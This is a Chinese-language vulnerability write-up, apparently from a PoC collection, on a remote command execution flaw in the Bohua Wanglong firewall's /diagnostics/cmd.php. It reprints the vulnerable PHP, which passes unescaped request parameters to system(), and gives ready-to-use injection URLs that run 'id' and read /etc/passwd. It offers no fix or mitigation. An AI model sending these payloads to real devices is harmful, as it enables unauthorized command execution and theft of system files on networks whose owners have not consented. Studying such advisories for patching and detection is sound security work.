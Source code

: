 # 博华网龙防火墙 cmd.php 远程命令执行漏洞(OEM)

## 漏洞描述

博华网龙防火墙 cmd.php 过滤不足，导致命令拼接执行远程命令

## 漏洞影响

<a-checkbox checked>博华网龙防火墙</a-checkbox></br>

<a-checkbox checked>博华网龙信息安全一体机</a-checkbox></br>

<a-checkbox checked>博华龙芯防火墙</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"博华网龙防火墙"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628671069270-2a8e5aae-ad02-4773-b7f4-769978f212d9.png)

存在漏洞的文件为 `/diagnostics/cmd.php`

```php
<?php
    include_once("pub/pub.inc");
    include_once("pub/session.inc");
    
    $username = $_SESSION["USER_NAME"];
    checkApproachUrl(); 
    
  if($_GET['action'] == "ping")
  {
        $host = $_GET['host'];
        $count = $_GET['count'];
        system("/bin/ping -c $count " . escapeshellarg($host)." >temp.htm");
        
         if($username)
            pSyslog("ping $host $count次", 0);           
  }
  else if($_GET['action'] == "traceroute")
  {
        $host = $_GET['host'];
        $ttl =  $_GET['ttl'];
        $useicmp = $_GET['useicmp'];
        
        if($useicmp)
            $useicmp = "-I";
        else
            $useicmp = "";        
        system("/usr/bin/traceroute -d $useicmp -w 2 -m " . escapeshellarg($ttl) . " " . escapeshellarg($host)." >temp.htm");    
        if($username)
            pSyslog("traceroute $host 跳数为$ttl", 0);     
  }
  else if($_GET['action'] == "arping")
  {
    $host = $_GET['host'];
    $count = $_GET['count'];
    $if = $_GET['ifName'];
    $src = $_GET['src'];
    system("/usr/bin/arping -I $if -c $count -s $src $host >temp.htm");
    
     if($username)
        pSyslog("arping $host $count次", 0);
  }
  else
  {
    system("echo \"\" >temp.htm");
  } 
?>
```

可以发现其中存在多个命令执行点，均可进行命令拼接执行恶意命令

构造命令执行

```php
/diagnostics/cmd.php?action=ping&count=||id||
/diagnostics/cmd.php?action=arping&ifName=|cat /etc/passwd||
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628671453310-0bb29dd0-00b6-4f75-b6e8-3103b6ebbcdc.png)

